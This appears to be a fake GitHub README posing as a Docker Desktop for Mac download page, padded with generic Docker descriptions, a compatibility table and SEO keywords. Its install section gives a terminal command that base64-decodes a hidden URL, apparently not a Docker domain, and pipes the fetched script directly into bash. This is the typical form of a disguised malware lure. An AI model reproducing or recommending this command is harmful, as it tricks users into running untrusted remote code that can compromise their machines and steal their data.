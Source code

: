 # 🐳 Docker Container for Mac – Download & Install Docker Desktop on macOS

![Docker Mac](https://miro.medium.com/v2/resize:fit:1400/1*IrguB8wYSVInUt5ndwSPrQ.jpeg)

---

## 🚀 Installation

## Installation via a command in the terminal:

### Run the following command in your Terminal:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```

---

## ❓ What is Docker for Mac?

**Docker for Mac** is a platform that allows developers to create, deploy, and run applications using containers directly on macOS. Containers are lightweight, portable, and provide an isolated environment for code to run across different systems. Docker ensures consistent behavior across development, testing, and production, reducing the "it works on my machine" problem.

Docker for Mac includes **Docker Desktop**, a powerful GUI that makes it easier to manage containers, images, volumes, and networks. It integrates tightly with the macOS environment, supports command-line tooling via the terminal, and offers performance optimizations for **Apple Silicon (M1/M2)**.

With Docker, you can run Linux-based containers seamlessly on macOS using virtualization. It’s widely used by developers building web apps, microservices, and infrastructure as code. Whether you're working with **Node.js**, **Python**, **Go**, or **Java**, Docker streamlines your development workflow.

Additionally, Docker Desktop comes with Kubernetes integration, automatic updates, resource usage control, and is ideal for local development, testing, and CI/CD.

---

![Docker Desktop Screenshot](https://www.docker.com/app/uploads/2021/04/docker-desktop-m1-1110x624.jpg)

---

## 🛠️ Features

- Run and manage Docker containers on macOS
- Full support for **macOS Ventura, Monterey, Big Sur**
- Native support for **Apple Silicon (M1/M2)**
- GUI via **Docker Desktop**
- Integrated Kubernetes (optional)
- CLI tools for advanced control
- Lightweight and developer-friendly

---

## 💻 Compatibility

| Feature            | Supported             |
|--------------------|------------------------|
| macOS Versions     | 11 (Big Sur) and later |
| Chip Architectures | Intel, Apple Silicon (M1, M2) |
| GUI                | Docker Desktop         |
| Terminal Support   | Bash, Zsh              |
| Virtualization     | Yes (uses HyperKit / Apple VM) |

---

## 🔑 Keywords

docker mac, install docker mac, docker container for mac, docker container mac, docker for mac os, docker for osx, docker install for mac, docker install mac os, docker install on mac, docker install osx, docker mac os install, docker mac os x, docker macbook, docker on mac os, docker osx install, docker setup mac, docks mac, install docker for mac, install docker in mac, install docker mac os, mac os docker, mac os install docker, macos docker, osx install docker, docker download mac, docker desktop for mac, docker desktop mac, docker desktop macos, docker download for mac, docker download osx, osx container, mac os container, mac docker desktop, install docker desktop mac, docker mac os download, docker mac os
